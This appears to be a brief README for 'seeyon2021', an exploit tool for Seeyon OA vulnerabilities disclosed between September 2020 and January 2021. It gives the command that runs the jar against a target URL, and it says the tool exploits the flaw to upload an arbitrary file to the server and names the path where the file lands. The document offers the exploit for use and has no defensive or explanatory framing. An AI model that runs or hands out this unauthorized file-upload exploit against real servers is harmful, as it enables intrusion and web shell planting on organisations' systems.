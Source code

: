 # seeyon2021
2020年9月到2021年1月爆发的致远OA漏洞

# 使用方法

```
java -jar seeyon2021.jar http://127.0.0.1:8080  test.txt
```

将尝试利用漏洞上传指定的文件到服务器，上传成功则上传位置为

http://127.0.0.1:8080/seeyon/test.txt
